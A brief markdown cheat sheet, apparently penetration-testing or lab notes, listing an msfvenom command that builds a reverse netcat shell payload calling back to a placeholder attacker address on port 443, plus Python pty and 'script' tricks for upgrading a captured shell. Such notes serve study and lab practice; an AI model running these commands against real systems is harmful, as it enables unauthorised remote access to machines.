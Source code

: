 # Most useful shells

* Try always using ports: 80 or 443 if open

## Linux

`msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.xxx.xxx LPORT=443 -f python`

# Shell Upgrade

* The bind/reverse shell is not always fully interactive
* Python trick can be used to make it such

<code> python -c 'import pty; pty.spawn("/bin/bash")' </code><br>
<code> python3 -c 'import pty;pty.spawn("/bin/bash")' </code>

* Using script
'script /dev/null -c bash'
